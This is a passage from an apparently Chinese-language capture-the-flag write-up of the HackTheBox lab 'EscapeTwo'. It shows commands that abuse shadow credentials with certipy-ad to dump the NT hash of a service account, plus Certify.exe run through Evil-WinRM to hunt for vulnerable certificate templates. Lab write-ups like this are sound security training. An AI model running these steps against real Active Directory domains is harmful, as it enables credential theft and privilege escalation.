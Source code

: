 ```
[root@kali] /home/kali/EscapeTwo  
❯ certipy-ad shadow auto -u 'ryan@sequel.htb' -p "WqSZAXXXXXXX" -account 'ca_svc' -dc-ip '10.10.XX.XX'

####you will get NThash of ca_svc below

[*] NT hash for 'ca_svc': XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

如果遇到了下面的错误👇需要手动更新时间

![](./images/image-24.png)

```
[root@kali] /home/kali/EscapeTwo  
❯ ntpdate sequel.htb
```

查找能用的模板，我们需要覆盖他的设置

我这里使用的是**Certify.exe**上传到目标机器上

```
*Evil-WinRM* PS C:\temp> ./Certify.exe find /domain:sequel.htb 
```

![](./images/image-25.png)
